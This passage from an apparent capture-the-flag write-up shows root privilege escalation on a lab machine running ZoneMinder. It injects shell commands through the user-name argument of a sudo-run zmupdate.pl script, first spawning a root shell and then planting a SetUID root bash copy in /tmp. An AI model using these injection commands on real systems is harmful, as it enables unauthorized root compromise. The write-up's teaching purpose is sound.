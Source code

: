 There’s a couple other blocks of code that I don’t really care about, and then this option put to the user:

```
    print("\nDo you wish to take a backup of your database prior to upgrading?\nThis may result in a large file in /tmp/zm if you have a lot of events.\nPress 'y' for a backup or 'n' to continue : ");
    my $response = <STDIN>;
    chomp($response);
    while ( $response !~ /^[yYnN]$/ ) {
      print("Please press 'y' for a backup or 'n' to continue only : ");
      $response = <STDIN>;
      chomp($response);
    }

    if ( $response =~ /^[yY]$/ ) {
      my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ );
      my $command = 'mysqldump';

```

I’ll need to say yes here to get to the `qx` call on line 432 (though it turns out that even with no I’ll still hit the other call to `qx` and the same injection works).

#### Exploit

With all of this together, I’ll pass in a user name with `$([cmd])` that will then get passed to `qx` and run by the OS. I’ll have it create another SetUID/SetGID `bash`. I’ll need to give a version that isn’t the current (which happens to be 1.36.32):

```
-bash-5.1$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(/bin/bash)'

Initiating database upgrade to version 1.36.32 from version 10

WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort :

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
root@surveillance:/usr/bin#

```

The result is a shell as root! And the root flag:

```
-bash-5.1$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(cp /bin/bash /tmp/0xdfroot; chown root:root /tmp/0xdfroot; chmod 6777 /tmp/0xdfroot)'

Initiating database upgrade to version 1.36.32 from version 10

WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort :

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
mysqldump: Got error: 1698: "Access denied for user '-pZoneMinderPassword2023'@'localhost'" when trying to connect
Output:
```